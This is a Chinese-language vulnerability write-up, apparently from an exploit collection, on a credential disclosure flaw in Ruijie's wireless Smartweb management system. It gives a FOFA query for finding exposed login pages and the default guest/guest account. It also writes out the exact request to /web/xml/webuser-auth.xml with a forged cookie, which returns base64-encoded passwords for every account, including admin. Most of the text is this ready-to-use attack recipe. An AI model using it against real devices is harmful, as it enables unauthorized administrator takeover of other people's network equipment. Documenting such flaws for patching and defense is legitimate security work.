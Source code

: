 # 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

```
锐捷网络股份有限公司 无线smartweb管理系统
```

## FOFA

```
title="无线smartWeb--登录页面"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110921639.png)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110921386.png)

解密就可以获得 admin管理员的密码，尝试直接请求

```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110921729.png)

直接获得所有的账户的等级标志和base64加密的账号密码
